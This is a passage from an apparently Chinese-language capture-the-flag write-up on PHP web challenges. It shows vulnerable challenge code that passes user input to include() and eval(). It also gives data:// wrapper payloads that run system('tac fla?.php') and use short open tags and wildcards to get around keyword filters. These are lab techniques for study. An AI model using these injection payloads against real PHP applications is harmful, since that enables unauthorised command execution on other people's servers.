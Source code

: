 

```cobol
?c=data://text/plain,<?=system('tac fla?.?hp');?>
```

这里是使用了短开表达式

<?=  相当于 <?php echo   对后面的php也模糊匹配

就可以了

## web39

```cobol
//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
    }
        
}else{
    highlight_file(__FILE__);
}
```

```cobol
?c=data://text/plain,<?php system('tac fla?.php');?>
```

因为data是将后面的php直接执行

## web40   __FILE__命令的扩展

```php
 
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
} 
 
 
过滤了很多符号和数字
 
```

这里没有过滤字母
